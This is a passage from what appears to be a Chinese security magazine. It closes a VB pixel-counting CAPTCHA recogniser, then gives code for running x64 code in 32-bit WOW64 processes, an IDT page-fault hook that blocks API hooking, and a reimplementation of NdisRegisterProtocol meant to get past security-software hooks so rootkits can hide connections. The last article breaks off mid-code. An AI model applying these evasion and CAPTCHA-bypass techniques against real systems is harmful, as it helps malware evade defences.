        Total = Total + Abs(nCount_Left - Number_Count_Left(j)) * 0.5
    End If

    If Abs(nCount_Right - Number_Count_Right(j)) > 6 Then
        Total = Total + Abs(nCount_Right - Number_Count_Right(j)) * 2
    Else
        Total = Total + Abs(nCount_Right - Number_Count_Right(j)) * 0.5
    End If

    If Total < MinVal Then
        MinVal = Total
        Result(i) = j
    End If
Next j
```

```vb
End If
Next
Next i
LblResult.Caption = "识别结果：" & Result(0) & Result(1) & Result(2) & Result(3)
End Sub
```

```vb
(App.Path & "\Settings.ini", "Count", "Number" & i & "_Down")
Number_Count_Left(i) = GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Left")
Number_Count_Right(i) = GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Right")
Next
End Sub
```

上述代码中，变量 Total 用于统计总的差异值。在某个区域内，如果差异值大于 6，那么它需要乘以 2 再加到 Total 上，这样是为了扩大差异。当一个区域中的差异特别大的时候，那么我们基本上可以排除这个数字，于是将差异扩大。

另外值得注意的是，上、中、下三部分的参数是 100%，而左、右两侧的参数是 50%。产生倾斜后，上中下的可信度没有发生太大改变，但是左右的可信度已经降低，于是人工置 50%。

窗体载入时，我们把 Settings.ini 中的数据读入全局变量中，避免识别时再次进行文件读/写操作。

```vb
Option Explicit
'声明两个数组，保存统计的像素点
Dim Number_Count_Up(0 To 9) As Integer
Dim Number_Count_Middle(0 To 9) As Integer
Dim Number_Count_Down(0 To 9) As Integer
Dim Number_Count_Left(0 To 9) As Integer
Dim Number_Count_Right(0 To 9) As Integer
Private Sub Form_Load()
'Picture1 假定装载一张验证码
Picture1.AutoRedraw = True
Picture2.AutoRedraw = True
'读入每个数字的深色像素点统计个数
Dim i As Integer
For i = 0 To 9
    Number_Count_Up(i) = GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Up")
    Number_Count_Middle(i) = GetValueFromIni(App.Path & "\Settings.ini", "Count", "Number" & i & "_Middle")
    Number_Count_Down(i) = GetValueFromIni(...)
Next
```

到此代码编写结束，运行示例程序，如图 4 所示。


图 4  程序运行效果

## 小结

本文介绍了识别倾斜验证码的一种简单方法：分区块统计像素点个数。采用此方法可以很容易识别区块差异很大的数字，例如：7、1、4。但程序对 0、6、8、9 等数字的识别成功率却不高。

稍后我们将讨论采取更多方法识别倾斜验证码，以提高识别的成功率。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC
- 关键词：x86、x64、进程

# 在 x86 程序里混合 x64 代码


文 ReWolf　译 胡文亮/邓思涛

前几个月，我做了一些关于 32 位进程在 WOW64 里执行原生 x64 代码的探索。第二个想法就是在 64 位进程里运行原生 x86 代码。以上两个想法都是可能的，且我搜索到一些人已经使用它了：

> http://vx.netlux.org/lib/vxg02.html  
> http://www.corsix.org/content/dll-injection-and-wow64  
> http://int0h.wordpress.com/2009/12/24/the-power-of-wow64/  
> http://int0h.wordpress.com/2011/02/22/anti-anti-debugging-via-wow64/

很不幸的是，在我刚开始研究时我没有注意到以上的结果，所以我仅仅提出我自己的独立想法。

## x86 和 x64 之间的转化

最简单的办法来查看 x86 和 x64 间的转换，莫过于去观察 64 位 Windows 系统中 32 位版本的 ntdll.dll 中的任何系统调用：

| 32-bits ntdll from Win7 x86 | 32-bits ntdll from Win7 x64 |
|---|---|
| mov eax, X<br><br>mov edx, 7FFE0300h<br>call dword ptr [edx]<br>;ntdll.KiFastSystemCall<br>retn Z | mov eax, X<br>mov ecx, Y<br>lea edx, [esp+4]<br>call dword ptr fs:[0C0h]<br>;wow64cpu!X86SwitchTo64BitMode<br>add esp, 4<br>ret Z |

正如你可以看到，在 64 位系统上有一个到 fs:[0xC0]（wow64cpu!X86SwitchTo64BitMode）的调用，替代了到 ntdll!KiFastSystemCall 的标准调用。wow64cpu!X86SwitchTo64BitMode 实施了一个远跳到 64 位段。

```asm
wow64cpu!X86SwitchTo64BitMode:
  748c2320 jmp 0033:748C271E
  ;wow64cpu!CpuReturnFromSimulatedCode
```

这就是在 64 位 Windows 系统里关于 x64 和 x86 模式切换的所有内幕戏法了。而且它也能工作在非 WOW64 进程里（标准的原生 64 位应用程序），所以 32 位代码也能在 64 位应用程序里执行。综上所述，在 64 位系统里运行的所有进程（x86 & x64）都分配了两个代码段：

| 段寄存器 | 模式 |
|---|---|
| cs = 0x23 | x86 mode |
| cs = 0x33 | x64 mode |

在 32 位进程里执行 x64 代码：首先我已经准备了一些宏，它们将会在 64 位代码的头尾作为标记使用：

```c
#define EM(a) __asm __emit (a)
#define X64_Start_with_CS(_cs) \
{ \
    EM(0x6A) EM(_cs)            /* push _cs */ \
    EM(0xE8) EM(0) EM(0) EM(0) EM(0)  /* call $+5 */ \
    EM(0x83) EM(4) EM(0x24) EM(5)      /* add dword [esp], 5 */ \
    EM(0xCB)                     /* retf */ \
}
```

```c
#define X64_End_with_CS(_cs) \
{ \
    EM(0xE8) EM(0) EM(0) EM(0) EM(0) /* call $+5 */ \
    EM(0xC7) EM(0x44) EM(0x24) EM(4) ... \
    EM(_cs) EM(0) EM(0) EM(0)         /* mov dword [rsp+4], _cs */ \
    EM(0x83) EM(4) EM(0x24) EM(0xD)   /* add dword [rsp], 0xD */ \
    EM(0xCB)                            /* retf */ \
}
#define X64_Start() X64_Start_with_CS(0x33)
#define X64_End()   X64_End_with_CS(0x23)
```

执行完 X64_Start() 宏后 CPU 会马上切换到 x64 模式，执行完 X64_End() 宏之后又会马上回到 x86 模式。以上两个宏的位置是独立的，这要归功于远程返回的操作码。

在调用 x64 版本的 API 时，以上两个宏也是有用的。我曾经尝试加载 x64 版本的 kernel32.dll，但这不是琐碎任务且我没有成功，所以我坚持只调用原生 API。主要问题是附加检查导致无法加载 64 位版本的 kernel32.dll，因为进程已经加载了 x86 版本的 kernel32.dll。

我相信这可能实现，通过一些底层挂钩手段突破 kernel32!BaseDllInitialize，但这是一个非常复杂的任务。当我开始研究时在 Windows Vista 下测试，成功加载了 64 位的 kernel32 和 user32 库（使用了一些黑客手段），但它们并没有完全工作。到了 Windows 7 时，这个在 Vista 上可用的方法已经完全不能工作。

言归正传，调用原生 API 需要查找 x64 版本的 ntdll.dll 在内存中的位置。为了完成这一任务我分析了来自 _PEB_LDR_DATA 中 InLoadOrderModuleList 的结构。64 位 PEB 能从 64 位 TEB 中获得。

获取 64 位 TEB 的过程和在 x86 平台上的过程很相似（在 x64 上我需要使用 gs 来替代 fs）：`mov edx, gs:[0x30]`。它还可以更简单，因为 wow64cpu!CpuSimulate（该函数负责 CPU 切换到 x86 模式）会移动 gs:[0x30] 的值到 r12 寄存器。

```c
// to fool MS inline asm compiler I'm using 2 DWORDs
// instead of DWORD64
// use of DWORD64 will generate wrong `pop word ptr[]`
// and it will break stack
union reg64 { ... }
```

```c
{
    DWORD dw[2];
    DWORD64 v;
};

//macro that simplifies pushing x64 registers
#define X64_Push(r) EM(0x48 | ((r) >> 3)) EM(0x50 | ((r) & 7))

WOW64::TEB64* getTEB64()
{
    reg64 reg;
    reg.v = 0;
    X64_Start();
    //R12 register should always contain pointer to TEB64 in WoW64 processes
    X64_Push(_R12);
    //below pop will pop QWORD from stack, as we're in x64 mode now
    __asm pop reg.dw[0]
    X64_End();
    //upper 32 bits should be always 0 in WoW64 processes
    if(reg.dw[1] != 0)
        return 0;
    return (WOW64::TEB64*)reg.dw[0];
}
```

WOW64 的命名空间已经定义在了 “os_structs.h” 文件里，这个文件和源代码一起都在本文的附件里。以下函数负责获得 64 位 ntdll.dll 的位置：

```c
DWORD getNTDLL64()
{
    static DWORD ntdll64 = 0;
    if(ntdll64 != 0)
        return ntdll64;
    WOW64::TEB64* teb64 = getTEB64();
    WOW64::PEB64* peb64 = teb64->ProcessEnvironmentBlock;
    WOW64::PEB_LDR_DATA64* ldr = peb64->Ldr;
    printf("TEB: %08X\n", (DWORD)teb64);
    printf("PEB: %08X\n", (DWORD)peb64);
    printf("LDR: %08X\n", (DWORD)ldr);
    printf("Loaded modules:\n");
    WOW64::LDR_DATA_TABLE_ENTRY64* head = \
      (WOW64::LDR_DATA_TABLE_ENTRY64*)ldr->InLoadOrderModuleList.Flink;
    do {
        printf("  %ws\n", head->BaseDllName.Buffer);
        if(memcmp(head->BaseDllName.Buffer, L"ntdll.dll", head->BaseDllName.Length) == 0)
        {
            ntdll64 = (DWORD)head->DllBase;
        }
        head = (WOW64::LDR_DATA_TABLE_ENTRY64*)head->InLoadOrderLinks.Flink;
    } while(head != (WOW64::LDR_DATA_TABLE_ENTRY64*)&ldr->InLoadOrderModuleList);
    printf("NTDLL x64: %08X\n", ntdll64);
    return ntdll64;
}
```

为了完全支持 x64 原生 API 调用，我将需要一些等价于 GetProcAddress、可以被 ntdll!LdrGetProcedureAddress 简单取代的函数。以下代码负责获取 LdrGetProcedureAddress 的地址：

```c
DWORD getLdrGetProcedureAddress()
{
    BYTE* modBase = (BYTE*)getNTDLL64();
    IMAGE_NT_HEADERS64* inh = \
      (IMAGE_NT_HEADERS64*)(modBase + ((IMAGE_DOS_HEADER*)modBase)->e_lfanew);
    IMAGE_DATA_DIRECTORY& idd = \
      inh->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];
    if(idd.VirtualAddress == 0)
        return 0;

    IMAGE_EXPORT_DIRECTORY* ied = \
      (IMAGE_EXPORT_DIRECTORY*)(modBase + idd.VirtualAddress);
    DWORD* rvaTable = (DWORD*)(modBase + ied->AddressOfFunctions);
    WORD* ordTable = (WORD*)(modBase + ied->AddressOfNameOrdinals);
    DWORD* nameTable = (DWORD*)(modBase + ied->AddressOfNames);

    //lazy search, there is no need to use binsearch for just one function
    for(DWORD i = 0; i < ied->NumberOfFunctions; i++)
    {
        if(strcmp((char*)modBase + nameTable[i], "LdrGetProcedureAddress"))
            continue;
        else
            return (DWORD)(modBase + rvaTable[ordTable[i]]);
    }
    return 0;
}
```

接下来我介绍一个函数，能用 x86 的 C/C++ 代码来调用 x64 原生 API：

```c
DWORD64 X64Call(DWORD func, int argC, ...)
{
    va_list args;
    va_start(args, argC);
    DWORD64 _rcx = (argC > 0) ? argC--, va_arg(args, DWORD64) : 0;
    DWORD64 _rdx = (argC > 0) ? argC--, va_arg(args, DWORD64) : 0;
    DWORD64 _r8  = (argC > 0) ? argC--, va_arg(args, DWORD64) : 0;
    DWORD64 _r9  = (argC > 0) ? argC--, va_arg(args, DWORD64) : 0;
    reg64 _rax;
    _rax.v = 0;
    DWORD64 restArgs = (DWORD64)&va_arg(args, DWORD64);

    //conversion to QWORD for easier use in inline assembly
    DWORD64 _argC = argC;
    DWORD64 _func = func;
    DWORD back_esp = 0;
    __asm
    {
        //keep original esp in back_esp variable
        mov back_esp, esp
    }
}
```

```c
// align esp to 8, without aligned stack some syscalls
// may return errors!
and esp, 0xFFFFFFF8
X64_Start();
// fill first four arguments
push _rcx
X64_Pop(RCX);
push _rdx
X64_Pop(RDX);
push _r8
X64_Pop(R8);
push _r9
X64_Pop(R9);
push edi
push restArgs
X64_Pop(RDI);
push _argC
X64_Pop(RAX);
// put rest of arguments on the stack
test eax, eax
jz _ls_e
lea edi, dword ptr [edi+8*eax-8]
_ls:
test eax, eax
jz _ls_e
push dword ptr [edi]
sub edi, 8
sub eax, 1
jmp _ls
_ls_e:
// create stack space for spilling registers
sub esp, 0x20
call _func
// cleanup stack
push _argC
X64_Pop(RCX);
lea esp, dword ptr [esp+8*ecx+0x20]
pop edi
// set return value
X64_Push(RAX);
pop _rax.dw[0]
X64_End();
mov esp, back_esp
}
return _rax.v;
}
```

这函数有点长，但注释和整个想法非常简单。第一个参数是我想调用的 x64 函数的地址，第二个参数是函数参数的个数。剩下的参数依据要调用的函数而定（译者注：剩下的参数就是被调用函数的各个参数），但所有参数的类型必须都是 DWORD64 类型的。以下是一个关于 X64Call() 的简单用法：

```c
DWORD64 GetProcAddress64(DWORD64 module, char* funcName)
{
    static DWORD64 _LdrGetProcedureAddress = 0;
    if (_LdrGetProcedureAddress == 0)
    {
        _LdrGetProcedureAddress = getLdrGetProcedureAddress();
        printf("LdrGetProcedureAddress: %08X\n", _LdrGetProcedureAddress);
        if (_LdrGetProcedureAddress == 0)
            return 0;
    }
    ...
}
```

```c
WOW64::ANSI_STRING64 fName = { 0 };
fName.Buffer = funcName;
fName.Length = strlen(funcName);
fName.MaximumLength = fName.Length + 1;
DWORD64 funcRet = 0;
X64Call(_LdrGetProcedureAddress, 4,
        (DWORD64)module, (DWORD64)&fName,
        (DWORD64)0, (DWORD64)&funcRet);
printf("%s: %08X\n", funcName, (DWORD)funcRet);
return funcRet;
}
```

在 64 位进程里执行 x86 代码：

这和刚才的例子非常像，不过有点小小的不便，就是 64 版本的微软 C/C++ 编译器不支持内嵌汇编了。所有的技巧（tricks）都在一个单独的 .asm 文件里实现。以下是 MASM64 中 X86_Start 和 X86_End 的宏定义：

```asm
X86_Start MACRO
    LOCAL xx, rt
    call $+5
xx equ $
    mov dword ptr [rsp+4], 23h
    add dword ptr [rsp], rt - xx
    retf
rt:
ENDM

X86_End MACRO
    db 6Ah, 33h         ; push 33h
    db 0E8h, 0, 0, 0, 0 ; call $+5
    db 83h, 4, 24h, 5   ; add dword ptr [esp], 5
    db 0CBh             ; retf
ENDM
```

## 译者的话：

本文是紫水晶编程技术论坛的某版主推荐我阅读的，我觉得不错，就翻译成了中文来分享给各位《黑客防线》读者。因担心水平不够，就临时邀请了一位英语较好的舍友（邓思涛）帮忙翻译。由于本文是笔者第一次翻译技术类英语文章，有技术性错误的地方还请各位读者直言批评指正，不吝赐教。顺便再多说一句，本文编译出的 EXE 文件虽然是 32 位的 exe，但是只能在 64 位 Windows 系统上正确执行（原因后面再说）。运行截图如图 1 所示。


图 1

前置知识：VC

关键词：异常，Hook，函数

# 利用缺页异常中断主动拦截 API Hook


文  SCEIIP

恶意软件为了达到保护自己、监视用户行为等目的，会使用 API Hook 技术修改系统 API 并重定向到自己的函数中。如何拦截恶意软件修改系统 API 的行为，是开发一个安全软件时所需要考虑的问题。

由于 API Hook 可以直接修改系统函数头部，所以目前常用的方法仍然是“事后检测”，即定时检查特定的函数是否被修改，并还原之。虽然这种方法在某些情况下能解决问题，但它依然存在许多缺陷。首先，系统 API 的数量非常多，恶意软件所挂钩的可能是其中的任何一个，如果要定时检查所有的 API 的话，不仅复杂度过高，其所耗费的时间也是用户难以接受的。此外，由于在被检查到之前，API 钩子依然生效，恶意软件亦可以通过反复挂钩特定的函数来绕过这种拦截方式。

本文所介绍的方法，不是定时检查指定的函数，而是利用系统的“写时复制”机制，挂钩缺页异常中断，主动拦截修改指定范围内内存的行为。这种方法，无论地址范围多大，所需要保护的 API 有多复杂，都不会有更多的时间开销。此外，由于这种方法属于“主动拦截”，能在恶意软件完成挂钩 API 的操作之前及时阻止，因而反复挂钩特定函数的方法也不再能够起作用。

读者可能在实践中发现过如下问题：修改某一个进程中的某个公共的 dll（如 kernel32）中的函数时，无法作用到另一个进程。然而，操作系统为了节省内存，没有理由在每个进程中保留一个完全独立的 dll 副本（如果这个 dll 被多个进程同时加载的话）。那么，操作系统又是怎么做到修改一个进程中的某个 dll 中的函数时，不会影响到其他进程呢？这就不得不提到 Windows 系统的“写时复制”机制。通常，系统中不同进程的公用 dll，都会尽量映射到相同的物理内存之上，然而当出现上述的情况时，系统会拦截到这个写入的行为，并且单独为这个进程创建一个物理页面，以保证不会影响到其他的进程。通过这种方式，系统得以共享多个进程中的相同 dll 中的数据，并且保证在单一进程中 dll 的数据被修改时，不会影响到其他的进程。

那么，系统的“写时复制”机制，又和缺页异常中断有什么关系呢？如上文所述，系统需要拦截写入公用 dll 中的共享数据的行为。Windows 操作系统通过将 dll 中共享数据的部分设置为不可写，从而在写入这部分数据时，产生一个缺页异常，并在处理异常的过程中进行“写时复制”的处理。因此，通过挂钩缺页异常中断，就可以在第一次写入共享 dll 中的数据前，进行拦截。

我们知道，在 x86 上，当缺页异常发生时，CPU 会将控制权转移到 IDT（Interrupt Descriptor Table）中的第 0xE 项所指定的处理函数。IDT 每项的结构如下所示。

```c
#pragma pack(1) // 按字节对齐
typedef struct
{
    USHORT LowOffset;   // 处理函数的低16位地址
    USHORT selector;
    UCHAR unused_lo;
    unsigned char unused_hi:5;
    unsigned char DPL:2;
    unsigned char P:1;
    USHORT HiOffset;    // 处理函数的高16位地址
} IDTENTRY;
#pragma pack()
```

通过修改 IDT 中所记录的处理函数地址，我们可以达到挂钩缺页异常中断的目的。

由于大部分操作都需要在 ring0 下完成，故本文使用驱动来实现。

首先，我们需要获取 IDT 所在的地址，下面的函数把获取到的地址保存在全局变量 identries 中。

```c
void int_get_idt()
{
    /*
    PVOID pidtinfo;
    pidtinfo = &idtinfo;
    __asm {
        push eax
        mov eax, pidtinfo
        sidt [eax]
        pop eax
    }
    identries = (IDTENTRY*)((ULONG)idtinfo.LowIDTbase |
               ((ULONG)idtinfo.HiIDTbase << 16));
    */

    __asm {
        push eax
        mov eax, fs:[0x38]
        mov identries, eax
        pop eax
    }
}
```

源代码中的注释部分，使用了 sidt 指令来获取 IDT 地址。然而，可以发现在部分虚拟机环境中，sidt 不能返回正确的结果。这是因为 sidt 并不是特权指令，虚拟机不借助硬件虚拟化等功能时，模拟 sidt 的指令比较困难。因此，本文使用 KPCR 结构来获取 IDT 的地址。使用 Windbg 工具，可以看到 KPCR 结构的详细内容。

```text
kd> dt _KPCR
nt!_KPCR
 +0x000 NtTib      : _NT_TIB
 +0x01c SelfPcr    : Ptr32 _KPCR
 +0x020 Prcb       : Ptr32 _KPRCB
 +0x024 Irql       : UChar
 +0x028 IRR        : Uint4B
 +0x02c IrrActive  : Uint4B
 +0x030 IDR        : Uint4B
```

| 偏移   | 字段                          | 类型             |
|--------|-------------------------------|------------------|
| +0x034 | KdVersionBlock                | Ptr32 Void       |
| +0x038 | IDT                           | Ptr32 _KIDTENTRY |
| +0x03c | GDT                           | Ptr32 _KGDTENTRY |
| +0x040 | TSS                           | Ptr32 _KTSS      |
| +0x044 | MajorVersion                  | Uint2B           |
| +0x046 | MinorVersion                  | Uint2B           |
| +0x048 | SetMember                     | Uint4B           |
| +0x04c | StallScaleFactor              | Uint4B           |
| +0x050 | DebugActive                   | UChar            |
| +0x051 | Number                        | UChar            |
| +0x052 | Spare0                        | UChar            |
| +0x053 | SecondLevelCacheAssociativity | UChar            |
| +0x054 | VdmAlert                      | Uint4B           |
| +0x058 | KernelReserved                | [14] Uint4B      |
| +0x090 | SecondLevelCacheSize          | Uint4B           |
| +0x094 | HalReserved                   | [16] Uint4B      |
| +0x0d4 | InterruptMode                 | Uint4B           |
| +0x0d8 | Spare1                        | UChar            |
| +0x0dc | KernelReserved2               | [17] Uint4B      |
| +0x120 | PrcbData                      | _KPRCB           |

KPCR 结构的 0x38 偏移处即为 IDT 的地址。由于当前处理器的 KPCR 总对应 fs:[0]，所以 IDT 的地址可以通过 fs:[0x38] 取得。

获取到 IDT 的地址后，便可以修改中断处理函数的地址了。需要注意的是，IDT 中存储处理函数地址的方式比较特别，低 16 位和高 16 位是分开保存的，下面两个函数可以读取或者设置指定中断向量的处理例程地址。

```c
PVOID int_get(ULONG n)
{
    return (PVOID)((ULONG)identries[n].LowOffset |
           ((ULONG)identries[n].HiOffset << 16));
}

VOID int_set(ULONG n, PVOID ptr)
{
    USHORT lo, hi;
    lo = (USHORT)((ULONG)ptr & 0x0000ffff);
    hi = (USHORT)((ULONG)ptr >> 16);
    ihook_wpoff();
    identries[n].LowOffset = lo;
    identries[n].HiOffset = hi;
    ihook_wpon();
}
```

IDT 通常是不可写的，修改 CR0 寄存器的 WP 位可以绕过此保护，写入后也需要还原。

```c
VOID ihook_wpoff() // 关闭 WP 位
{
    __asm {
        cli;
        push eax;
        mov eax, cr0;
        and eax, 0FFFEFFFFh;
        mov cr0, eax;
        pop eax;
    }
}

VOID ihook_wpon() // 设置 WP 位
{
    __asm
    {
        // ...
    }
}
```

```asm
{
    push eax;
    mov eax, cr0;
    or eax, 10000h;
    mov cr0, eax;
    pop eax;
    sti;
}
```

缺页异常中断的处理例程并不遵守 stdcall 调用方式，因此需要纯汇编来编写。

```cpp
__declspec(naked) void hooked_trap_0e()
__asm
{
    pushad    // 保存现场
    mov eax, [esp+32] // 错误码
    push eax
    mov eax, cr2 // 在缺页异常发生时，试图访问的内存地址保存在 CR2 寄存器中
    push eax
    mov eax, esp
    add eax, 32+4+4+4 // 产生异常的指令地址
    push eax
    call check_addr // 调用 check_addr 函数进行进一步的检查

    test eax, eax
    jz normal // check_addr 返回 0 时，放行并调用原始的处理例程
    xor eax, eax
    mov cr2, eax // 否则，模拟一个试图访问地址 0x00000000 所产生的异常
normal:
    popad
    jmp origkjtrap0e
}
```

这段代码调用了 check_addr 函数进行进一步的检查，如果此函数返回 1，则拦截这次操作，并且模拟一个访问地址 0x00000000 所产生的错误给上层应用程序（如果上层程序使用 WriteProcessMemory 函数，则会返回 0 表示失败）。本文给出了一个最简单的 check_addr 函数的实现，只判断地址所在的范围。读者可以进一步扩展，增加访问者判断、日志等功能。

```cpp
ULONG check_addr(ULONG* caller, ULONG ptr, ULONG errcode)
{
    ULONG t;
    if (!(errcode & 2)) return 0; // 是否为写入操作？
    if ((paddr <= ptr) && (paddr + psize > ptr)) // 是否在受保护的地址范围内？
    {
        return 1;
    }
    return 0;
}
```

在本例中，用户层程序获取 Beep 函数的地址，并通过 IoControl 调用驱动程序来设置。运行 test.exe 后，可以用 OllyDbg 1.10 等工具进行测试，无法修改受到保护的 kernel32.Beep 函数。

由于篇幅所限，本例中假定系统中只存在一个处理器。在多处理器环境中，要注意每一个处理器都有一个独立的 IDT，应全部加以修改。此外，恶意软件还可以通过 VirtualProtect 等函数修改内存的属性绕过这种保护，应在驱动中加以拦截，可以通过 SSDT Hook 挂钩 NtProtectVirtualMemory 函数加以处理。

> （编辑提醒：本文涉及的代码可以到黑防官网站下载）

前置知识：VC

关键词：NDIS，小端口，中间层

# 编写 NdisRegisterProtocol


图/文 ywledoc

笔者最近在学习 NDIS 驱动方面的内容。NDIS 分为三类：协议驱动、中间层驱动以及小端口驱动。

秉承读者学习过 NDIS 驱动，应该知道除了小端口驱动外，协议驱动和中间层驱动都调用了NdisRegisterProtocol 来注册一个协议，从而达到进行自主发包、过滤或者修改数据包的功能。

由此可见，NdisRegisterProtocol 对于攻击和防守的双方都有重要意义。目前主动防御已经对 NdisRegisterProtocol 进行了各种各样的 hook，从而让 toolkit 进入系统后，难以用底层的技术来隐藏自身的数据连接。那么如何绕过主动防御中的限制，让我们能够调用 NdisRegisterProtocol 呢？

- 1. 加载原始 NDIS.SYS 文件，再解析 PE 文件，找到函数地址进行调用。
- 2. 在模块中自己实现 NdisRegisterProtocol 的操作，不调用系统提供的函数。

由于对 PE 文件的解析类文章比较多，再加上网上 NdisRegisterProtocol 的资料比较少，所以笔者这里选择了第二种方法，自己实现 NdisRegisterProtocol 的操作。下面将带大家一起来了解 NdisRegisterProtocol 中的操作及一些结构。

关于 NdisRegisterProtocol 中的操作，正如其名，就是向系统中注册我们的协议。那么是如何注册的呢？笔者就结合逆向出来的 C 代码，来向大家讲解 NdisRegisterProtocol 中的操作。

首先，笔者不打算一开始就钻入代码中进行讲解。正如编码前先架构，那么讲解代码前我们先了解大致的步骤。

## NdisRegisterProtocol 的基本结构与流程

系统中的一个协议链表，其链表头是名为 _ndisProtocolList 的变量，_ndisProtocolList 指向一个类型为 NDIS_PROTOCOL_BLOCK 的结构体，NDIS_PROTOCOL_BLOCK 中有 NextProtocol 域指向下一个 NDIS_PROTOCOL_BLOCK 结构体，从而把注册的协议串成一个链。同时 NDIS_PROTOCOL_BLOCK 中还有 ProtocolCharacteristics 域，这个域是用户自定义的协议特征，本质是一系列的处理函数。如图 1 所示：

图 1 中没有显示出 ProtocolCharacteristics，但请读者记住这些结构中有这个域。其中的 OpenQueue 并不在本文的讨论中，但很重要，其结构为 _NDIS_OPEN_BLOCK，有兴趣的读者，请自行探索。

接着该讨论代码了，看看 NdisRegisterProtocol 是如何一步一步把协议加入到 _ndisProtocolList 中去的，这里只给出主要步骤，先来看看 NDIS_PROTOCOL_BLOCK 结构的代码，如下：

```c
typedef struct {
    PVOID OpenQueue; //: Ptr32
    _NDIS_OPEN_BLOCK 0x00
    REFERENCE Ref; //:
    _REFERENCE 0x04
    PKEVENT DeregEvent; //:
    Ptr32_KEVENT 0x0C
    PNDIS_PROTOCOL_BLOCK NextProtocol; //: Ptr32
    _NDIS_PROTOCOL_BLOCK 0x10
    NDIS50_PROTOCOL_CHARACTERISTICS ProtocolCharacteristics; //:
    _NDIS50_PROTOCOL_CHARACTERISTICS 0x14
    WORK_QUEUE_ITEM WorkItem; //:
    _WORK_QUEUE_ITEM 0x80
    KMUTANT Mutex; //:
    _KMUTANT 0x90
    ...
} MY_NDIS_PROTOCOL_BLOCK, *PMY_NDIS_PROTOCOL_BLOCK;
```

```c
ULONG MutexOwner; //:
Uint4B 0xB0
PUNICODE_STRING BindDeviceName; //: Ptr32 _UNICODE_STRING 0xB4
PUNICODE_STRING RootDeviceName; //: Ptr32 _UNICODE_STRING 0xB8
PUNICODE_STRING AssociatedMiniDriver; //: Ptr32
_NDIS_M_DRIVER_BLOCK 0xBC
PVOID BindingAdapter; //: Ptr32
_NDIS_MINIPORT_BLOCK 0xC0
USHORT NameBuff[(Characteristics->Name.Length+2)]; //0xC4
} MY_NDIS_PROTOCOL_BLOCK,
*PMY_NDIS_PROTOCOL_BLOCK;
```

每个域后面都标出了偏移，方便大家查看。下面就开始分析 NdisRegisterProtocol 的代码了，代码如下：

- 1.

```c
size = 0x6c;
p_protocol = (PMY_NDIS_PROTOCOL_BLOCK)ExAllocatePoolWithTag(
    NonPagedPool,
    ProtocolCharacteristics->Name.Length + 0xC6,
    'bpDN');

RtlZeroMemory(&p_protocol->ProtocolCharacteristics,
    ProtocolCharacteristics->Name.Length + size);

RtlCopyMemory(&(p_protocol->ProtocolCharacteristics),
    ProtocolCharacteristics,
    size);

// Upcase 协议名
p_protocol->ProtocolCharacteristics.Name.Buffer =
    (PVOID)((ULONG)p_protocol + 0xC4);
RtlUpcaseUnicodeString(&p_protocol->ProtocolCharacteristics.Name,
    &ProtocolCharacteristics->Name,
    FALSE);
```

在 NdisRegisterProtocol 中首先申请了一片非分页内存，用来保存 NDIS_PROTOCOL_BLOCK 结构。NDIS_PROTOCOL_BLOCK 的大小是 0xC4，但分配了 0xC6 + Name.Length 个内存。结构体代码段的最后两句代码，笔者猜测是 NdisRegisterProtocol 把协议名保存在 NDIS_PROTOCOL_BLOCK 结构后面，并且用 0x2 个 “00” 来截断 UNICODE_STRING。

- 2. 这部分设置了 WorkerRoutine 为 ndisCheckProtocolBindings，之后用 KeInsertQueue 把本协议块的 WorkItem 加入到 ndisWorkerQueue 中，之后 NDIS 会创建一个 ndisWorkerThread 线程，然后以 WorkItem.Parameter 为参数调用 WorkItem.WorkerRoutine，即 ndisCheckProtocolBindings。

对于 ndisCheckProtocolBindings 笔者没有进行分析，望有分析出来的读者，能跟笔者交流。

- 3.

```c
KeAcquireSpinLock(g_ndisProtocolListLock, &OldIrql);

p_protocol->NextProtocol = *(ULONG*)g_ndisProtocolList;
*(ULONG*)g_ndisProtocolList = p_protocol;

KeReleaseSpinLock(g_ndisProtocolListLock, OldIrql);
ObReferenceObject(g_ndisDriverObject);

// ndisReferenceRef 的实现
KeAcquireSpinLock(p_protocol->Ref.SpinLock, &OldIrql);
if (p_protocol->Ref.Closing != 0) {
    // NOTHING
} else {
    p_protocol->Ref.ReferenceCount++;
    if (p_protocol->Ref.ReferenceCount == 0) {
        p_protocol->Ref.ReferenceCount = p_protocol->Ref.ReferenceCount | 0xffff;
    }
}
KeReleaseSpinLock(p_protocol->Ref.SpinLock, OldIrql);
```

这部分就是关键的部分了，先申请自旋锁，用来解决并发的问题，然后对链表进行设置，再然后对 ndis 的驱动对象增加了一个引用计数，后面即是 ndisReferenceRef 函数的实现了。

到这里，NdisRegisterProtocol 的代码就讲解完了。可以发现，其实 NdisRegisterProtocol 的代码很简单，这一方面方便了我们自己实现 NdisRegisterProtocol，但如果读者仔细观看了代码后，会发现有很多 g_* 的变量；这些都是 NDIS.SYS 中的变量，在 NdisRegisterProtocol 要对这些变量进行操作或者使用。这许多的 g_* 变量，就是导致本方法比较难做到通用的原因。

## g_* 变量的获取方法

那么如何得到这些变量呢？在 IDA+windbg 的帮助下，笔者发现 NdisDeregisterProtocol、DriverEntry 和 NdisReEnumerateProtocolBindings 中有所有这些 g_* 变量，那么就要在这些函数进行特征码搜索，从而得到相应变量。由于本文提供的只是一个示例代码，所以使用了硬编码来得到相应变量。

在 NdisDeregisterProtocol 中可以得到 ndisProtocolList、ndisProtocolListLock 和 ndisPkgs，其中 ndisPkgs 在前面没有讲过，读者可以参见附件中的代码，下面给出取得变量的代码：

```c
__declspec(naked)
VOID
GetNdisDeregisterProtocol(PULONG routine_addr)
{
    __asm {
        push ebp
        mov  ebp, esp
        push eax
        push ebx
        call lab_1
        call NdisDeregisterProtocol
lab_1:
        pop ebx
        mov  eax, [ebx+1]
        add  ebx, 5
        add  ebx, eax
        mov  eax, [ebx]
        mov  ebx, routine_addr
        mov  [ebx], eax
        pop ebx
        pop eax
        mov  esp, ebp
        pop ebp
        ret 4
    }
}

VOID
get_list_lock_pkg_addr(PULONG list_addr,
                       PULONG lock_addr,
                       PULONG pkg_addr)
{
    // RtlInitUnicodeString(&routine_name, L"NdisDeregisterProtocol");
}
```

```c
// routine_addr = MmGetSystemRoutineAddress(&routine_name);
ULONG dereg_addr;
GetNdisDeregisterProtocol(&dereg_addr);
if (!dereg_addr) {
